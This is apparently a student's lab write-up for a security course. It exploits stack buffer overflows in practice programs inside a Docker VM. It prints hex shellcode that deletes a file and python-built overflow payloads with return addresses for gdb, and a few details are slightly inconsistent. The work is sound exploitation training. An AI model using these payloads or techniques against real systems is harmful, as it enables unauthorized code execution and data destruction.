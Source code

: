  22110042 Doan Minh Khanh
> ### Lab 2 
## Task 1
**Inject code to delete file: file_del.asm is given on github**

Create a file called dummy file
>![image](./IS_lab2/dummyfile.png)

 Firstly, accessing to the virtual machine by Docker
>![docker access](./IS_lab2/docker-acess.png)

> Go into the lab\seclabs\Security-labs\Software\buffer-overflow and then create a file_asm out by these 2 commands
![create_file](./IS_lab2/file-delout.png)

Then I will get the hexstring of file_del
> for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
>\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.
>
Remove \xdummyfile because it is not meaningful hexadecimal code       
> \xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00

Stack Frame
>  ![image](./IS_lab2/stackeframe.png)
> To execute the the file_del, it needs to overwrite the buffer
> It is: 36 bytes shell code + 4 bytes return address + 32 bytes placement code = 72 bytes

Now we need to access gdb of vuln.out 
>  ![image](./IS_lab2/gdb-vulnout.png)
> break at 0x0804843e and 0x0804846b

> using r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")
> ![image](./IS_lab2/using.png)
> 
> then we run the shell and look by command: x/80xb $esp

>Then, we will observe the first 3 bytes will respond the shellocde, but at the 4th byte because we have \x0a in the hexstring, the strcpy will make the interuption
>![image](./IS_lab2/strcpy.png)

Therefore, we need to change some character:
* 0x00: null
* 0x09: horizontal tab
* 0x0a: line feed
>![image](./IS_lab2/rootstarter.png)
> So we need to change the assembly code in file-del to this for replacing the \x0a in the line *"move eax,10"* 
>![image](./IS_lab2/changestarter.png)

Get the shellcode again, we have:
>![image](./IS_lab2/afterchangecode.png)
> Now, we prevent the termination by the address 0xff and mark the return of the return frame
> 
> Also, we can see the address pf esp is \x68\xd6\xff\xff. So we need change the marked position to this position. So we change the command into:
>![image](./IS_lab2/setagain.png)
> r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\x68\xd6\xff\xff')")
> 
> ![image](./IS_lab2/afterchangemarked.png)
> then we continue to set 0xffffd6d8b = 0x00 and change the bit from 0xffffd671 to 0xffffd674 to the address of the dummyfile
> ![image](./IS_lab2/dummyfile_addr.png)
> then we have final result
> ![image](./IS_lab2/set0x00.png)
> and the dummy_file is deleted by vuln.c
> ![image](./IS_lab2/dummyfile_deleted.png)

***
## Task 2
**Conduct attack on ctf.c** 
> The stack frame
> ![image](./IS_lab2/stackctf.png)
>The *vuln* function account for the first 104 bytes
> ![image](./IS_lab2/code-ctf.png)
To overflow, we need to over the return address


Create the file ctf.out
> gcc -g ctf.c -o ctf.out -fno-stack-protector -mpreferred-stack-boundary=2

Connect gdb and disas myfunc
> ![image](./IS_lab2/disasmyfunc.png)
> we have the *myfunc* adress: 0x0804851b, and p = 0x04081211 and q = 0x44644262 so we have the command
> we have 104(padding) + the myfunc's address + 4(padding) + p(value) + q(value)
> r $(python -c "print('a'*104+'\x1b\x85\x04\x08'+'a'*4+'\x11\x12\x08\x04'+'\x62\x42\x64\x44')")

After running we met flag 1 is missing >> create flag1.txt
> ![image](./IS_lab2/flag1misssing.png)
> ![image](./IS_lab2/createdflag1.png)

>But when running in gdb, it meet an infinite func
>![image](./IS_lab2/infinite.png)
So we need to find the exit address to replace the padding 
>![image](./IS_lab2/exitaddr.png)
> r $(python -c "print('a'*104 + '\x1b\x85\x04\x08' + '\xe0\x83\x04\x08'+ '\x11\x12\x08\x04' + '\x62\x42\x64\x44')")
> Run again and we have the expected outcome:
> ![image](./IS_lab2/overflow.png)




